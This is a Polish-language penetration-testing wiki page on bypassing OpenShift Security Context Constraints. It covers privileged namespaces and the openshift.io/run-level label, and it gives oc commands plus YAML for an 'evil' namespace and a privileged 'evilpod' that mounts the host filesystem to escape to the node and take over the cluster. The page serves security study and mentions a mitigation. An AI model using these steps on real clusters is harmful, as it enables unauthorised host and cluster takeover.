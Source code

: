 # Openshift - Ominięcie SCC

**Oryginalnym autorem tej strony jest** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Przestrzenie nazw uprzywilejowane

Domyślnie SCC nie jest stosowane w następujących projektach:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Jeśli wdrożysz moduły w jednej z tych przestrzeni nazw, żadne SCC nie będzie egzekwowane, co pozwala na wdrożenie uprzywilejowanych modułów lub montowanie systemu plików hosta.

## Etykieta przestrzeni nazw

Istnieje sposób na wyłączenie stosowania SCC w twoim module zgodnie z dokumentacją RedHat. Będziesz musiał mieć co najmniej jedno z następujących uprawnień:

- Utwórz przestrzeń nazw i utwórz moduł w tej przestrzeni nazw
- Edytuj przestrzeń nazw i utwórz moduł w tej przestrzeni nazw
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Specyficzna etykieta `openshift.io/run-level` umożliwia użytkownikom obejście SCC dla aplikacji. Zgodnie z dokumentacją RedHat, gdy ta etykieta jest wykorzystywana, żadne SCC nie są egzekwowane na wszystkich podach w tej przestrzeni nazw, efektywnie usuwając wszelkie ograniczenia.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Dodaj etykietę

Aby dodać etykietę w swojej przestrzeni nazw:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Aby utworzyć przestrzeń nazw z etykietą za pomocą pliku YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Teraz wszystkie nowe pody utworzone w przestrzeni nazw nie powinny mieć żadnego SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

W przypadku braku SCC nie ma żadnych ograniczeń dotyczących definicji twojego pada. Oznacza to, że złośliwy pod może łatwo zostać utworzony, aby uciec na system hosta.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Teraz stało się łatwiejsze eskalowanie uprawnień w celu uzyskania dostępu do systemu hosta, a następnie przejęcie całego klastra, uzyskując uprawnienia „cluster-admin”. Szukaj części **Eksploatacja Post-Node** na następnej stronie:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Niestandardowe etykiety

Co więcej, w zależności od konfiguracji docelowej, niektóre niestandardowe etykiety / adnotacje mogą być używane w ten sam sposób jak w poprzednim scenariuszu ataku. Nawet jeśli nie są do tego przeznaczone, etykiety mogą być używane do nadawania uprawnień, ograniczania lub nie ograniczania dostępu do określonego zasobu.

Spróbuj znaleźć niestandardowe etykiety, jeśli możesz odczytać niektóre zasoby. Oto lista interesujących zasobów:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Wypisz wszystkie uprzywilejowane przestrzenie nazw
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Zaawansowany exploit

W OpenShift, jak pokazano wcześniej, posiadanie uprawnień do wdrażania poda w przestrzeni nazw z etykietą `openshift.io/run-level` może prowadzić do prostego przejęcia klastra. Z perspektywy ustawień klastra, ta funkcjonalność **nie może zostać wyłączona**, ponieważ jest ona związana z projektem OpenShift.

Jednakże środki łagodzące, takie jak **Open Policy Agent GateKeeper**, mogą zapobiec użytkownikom ustawiania tej etykiety.

Aby ominąć reguły GateKeeper'a i ustawić tę etykietę w celu wykonania przejęcia klastra, **atakujący musieliby zidentyfikować alternatywne metody.**

## Referencje

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
